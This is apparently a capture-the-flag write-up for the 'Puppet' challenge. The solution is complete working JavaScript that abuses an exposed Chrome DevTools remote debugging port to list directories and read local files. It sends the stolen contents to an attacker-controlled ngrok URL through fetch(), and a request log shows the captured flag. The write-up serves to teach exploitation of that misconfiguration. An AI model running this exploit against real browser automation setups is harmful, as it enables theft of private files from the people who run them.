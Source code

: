 # Puppet

The flag has a random name in ~/Documents \
Pwn my browser >:)

```javascript
const browser = await puppeteer.launch({
  dumpio: true,
  args: [
    '--disable-web-security',
    '--user-data-dir=/tmp/chrome',
    '--remote-debugging-port=5000',
    '--disable-dev-shm-usage', // Docker stuff
    '--js-flags=--jitless' // No Chrome n-days please
  ]
})
```

Challenge: http://35.225.84.51

Attachments: `puppet.zip`

## Solution

TLDR:
> Abuse [Chrome DevTools Protocol](https://chromedevtools.github.io/devtools-protocol/)
> as used [here](https://github.com/qxxxb/ctf/tree/master/2021/angstrom_ctf/watered_down_watermark)
> to list directories and read arbitrary files.

We have to read
`file:///home/inmate/Documents/flag_xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx.txt`.

```javascript
const browser = await puppeteer.launch({
  args: [
    '--disable-dev-shm-usage',
    '--disable-web-security',
    '--user-data-dir=/tmp/chrome',
    '--remote-debugging-port=5000'
  ]
})
```

The DevTools port is usually randomized but for this challenge it's fixed to
5000 so we don't have to do any painful port scanning.

Also we have `--disable-web-security`, which means Same-Origin Policy and CSP
are all out the window. However, `file:///` URLs are still protected.

Solution:
- Use the DevTools protocol to open `file:///home/inmate/Documents` and fetch
  `document.body.textContent` through the WebSocket
- Parse the HTML to get the filename of the flag, then use the same technique
  to read the file contents.

Caveats:
- Headless chrome chokes on `file:///` URLs that list directories, as mentioned
  [here](https://github.com/puppeteer/puppeteer/issues/5737)
- Workaround is to first do `view-source:file:///home/inmate/Documents` then
  `document.body.textContent`

My solution:

```javascript
const selfURL = "http://db7ec431f10a.ngrok.io";

function sleep(ms) {
  return new Promise((resolve) => setTimeout(resolve, ms));
}

function report(data) {
  fetch(`${selfURL}/${encodeURIComponent(data)}`);
}

async function openPage(url) {
  const baseUrl = "http://localhost:5000";
  const devtoolsURL = `${baseUrl}/json/new?${encodeURIComponent(url)}`;
  const res = await fetch(devtoolsURL);
  const data = await res.json();
  await sleep(500); // Wait for the page to finish loading
  return data.webSocketDebuggerUrl;
}

function wsPromise(wsURL, onopen) {
  return new Promise((resolve, reject) => {
    window.ws = new WebSocket(wsURL);

    ws.onerror = (e) => {
      report("[ws.onerror] " + JSON.stringify(e));
      reject(e);
    };

    ws.onmessage = (e) => { resolve(e); };
    ws.onopen = () => ws.send(onopen);
  });
}

const documentsDir = "file:///home/inmate/Documents";

(async () => {
  var wsURL = await openPage("http://example.com");

  var res = await wsPromise(
    wsURL,
    JSON.stringify({
      id: 0,
      method: "Page.navigate",
      params: {
        url: `view-source:${documentsDir}`,
      },
    })
  );
  console.log("[Page.navigate]");
  console.log(res);

  var res = await wsPromise(
    wsURL,
    JSON.stringify({
      id: 0,
      method: "Runtime.evaluate",
      params: { expression: "document.body.textContent" },
    })
  );
  console.log("[Runtime.evaluate]");
  console.log(res);

  var html = JSON.parse(res.data).result.result.value;
  console.log("[html]")
  console.log(html)

  var doc = new DOMParser().parseFromString(html, "text/html");
  var scripts = Array.from(doc.querySelectorAll("script"));

  // On non-headless chrome, this should be 5
  var fileScripts = scripts.slice(2);

  var filenames = fileScripts.map(
    (x) => x.text.match(/addRow\("(?<filename>.*?)".*/).groups.filename
  );

  console.log("[filenames]")
  console.log(filenames);

  for (const filename of filenames) {
    var wsURL = await openPage(`${documentsDir}/${filename}`);
    var res = await wsPromise(
      wsURL,
      JSON.stringify({
        id: 0,
        method: "Runtime.evaluate",
        params: { expression: "document.body.textContent" },
      })
    );
    console.log("[Runtime.evaluate]");
    console.log(res);
    var file = JSON.parse(res.data).result.result.value
    report(`[${filename}] ${file}`);
  }
})();
```

Output:
```
HTTP Requests
-------------

GET /[flag_4835141fe1031b2cfece2f5ef524e1a1.txt] CCC{1f_0nly_th3r3_w4s_X55_0n_th3_d3vt00ls_p4g3}  404 File not found
GET /main.js                                                                                      200 OK
GET /                                                                                             200 OK
```
